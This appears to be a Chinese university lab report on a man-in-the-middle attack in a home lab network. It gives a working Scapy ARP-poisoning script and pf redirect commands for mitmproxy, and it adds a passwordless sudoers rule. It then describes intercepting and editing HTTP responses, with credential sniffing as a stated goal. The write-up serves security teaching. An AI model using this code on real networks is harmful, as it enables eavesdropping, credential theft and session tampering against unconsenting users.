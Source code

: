 # 网络安全工程 实验2：中间人攻击

## 实验要求

在攻击机上利用Scapy伪造数据包，对另外两台靶机进行ARP欺骗，实现窃听靶机之间的会话，在实现ARP欺骗的基础上，进一步实现中间人攻击。利用iptables 修改流量的转发端口，使用mitmproxy进行拦截请求，可以获取到请求的参数，从中提取出重要的信息，比如用户名和密码，也能够修改响应，改变返回的内容。mitmproxy 提供了inline script 方法，能够使用脚本来操作流量，使得mitmproxy 的功能更加强大，当然也可以尝试拦截https的流量，mitmproxy 也具有这样的能力。

- 要求1：使用Scapy实现窃听另外两台靶机的会话。例如窃听并提取另外两台靶机之间FTP或者HTTP会话的登录账号。
- 要求2：对另外两台靶机进行中间人攻击，实现对会话进行篡改。例如对靶机间的HTTP会话进行注入，修改HTTP响应。

## 实验环境

- 网络环境：利用路由器的自组无线局域网，子网网段192.168.1.0/24
- 攻击者 Attacker：
    - OS: MacOS 10.14
- 服务器 Server：
    - OS: MacOS 10.13
    - IP: 192.168.1.107
- 客户机 Victim：
    - OS: Windows 10
    - IP: 192.168.1.104
- **注意**：由于使用物理机环境而非kali虚拟机，因此部分操作与实验指示书有所不同

## 实验步骤

### 要求1

1. 首先将三台主机连入子网，为server配置http服务：

    ```bash
        $ python3 -m http.server 80
    ```

2. 随后用客户机victim通过浏览器访问服务器ip地址，可以得到 http response 如下：

    ![HTTP RESPONSE](fig/browser_norm.PNG)

3. 在攻击者上编写arp poison脚本，原理是利用Scapy分别向server和victim不断发送被修改过的ARP包，从而在二者的ARP缓存中投毒，将两者对于对方的ARP缓存均更改为attacker的MAC地址。脚本详见`src/arp_poison.py`，主要内容如下：

    ```py
        server_ip = "192.168.1.107"
        victim_ip = "192.168.1.104"
    
        # 获取目标ip的MAC地址
        def get_mac(ip_address):
            ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip_address), timeout=2, retry=10)
            for s, r in ans:
                return r[Ether].src
            return None
    
        # 分别获取二者的MAC
        victim_mac = get_mac(victim_ip)
        server_mac = get_mac(server_ip)
    
        # 构造ARP包
        # 发给server的包中，源ip为victim，但源mac为attacker
        # 发给victim的包类似
        poison_server = ARP()
        poison_server.op = 2
        poison_server.psrc = victim_ip
        poison_server.pdst = server_ip
        poison_server.hwdst = server_mac
    
        poison_victim = ARP()
        poison_victim.op = 2
        poison_victim.psrc = server_ip
        poison_victim.pdst = victim_ip
        poison_victim.hwdst = victim_mac
    
        # 循环发送，保证占有ARP缓存
        while True:
            send(poison_server)
            send(poison_victim)
            time.sleep(2)
            print("Poisoning...")
    ```

4. 执行上面的脚本，开始ARP投毒

    ```bash
        $ python arp_poison.py
    ```

5. 为了使用mitmproxy，attacker需要开启转发，流程参考 [mitmproxy docs](https://docs.mitmproxy.org/stable/howto-transparent/#macos)，具体操作如下：

    ```bash
        $ sudo sysctl -w net.inet.ip.forwarding=1
        $ echo "rdr on en0 inet proto tcp to any port {80, 443} -> 127.0.0.1 port 8080" > pf.conf
        $ sudo pfctl -f pf.conf
        $ sudo pfctl -e
    ```
    随后修改`/etc/sudoers`，在文件末尾添加如下内容：
    ```
        ALL ALL=NOPASSWD: /sbin/pfctl -s state
    ```

6. 开启`mitmproxy`进行流量监听：
    ```bash
        $ mitmproxy --mode transparent
    ```

7. 此后，victim再向server发送请求时，attacker都会监听到HTTP会话，如，victim再次通过浏览器访问server时，attacker可以监控到相应的GET和Response：
    ![transparent](fig/transparent.png)

### 要求2

1. attacker在`mitmproxy`中开启对server (192.168.1.107) 的流量拦截：
    ![intercept](fig/intercept.png)
2. victim再次发送GET请求时，Response将被截获：
    ![intercept response](fig/intercept_response.png)
3. 这时attacker即可对包进行编辑，从而达到篡改会话的目的，如这里我们进行HTTP会话注入，修改回复内容：
    - 原始内容：
        ![response_origin](fig/response_origin.png)

    - 修改内容：
        ![response_edited](fig/response_edited.png)
4. attacker完成修改后，即可按`a`放行，victim将收到被篡改过的回复：
    ![browser_poison](fig/browser_poison.PNG)

## 分工情况
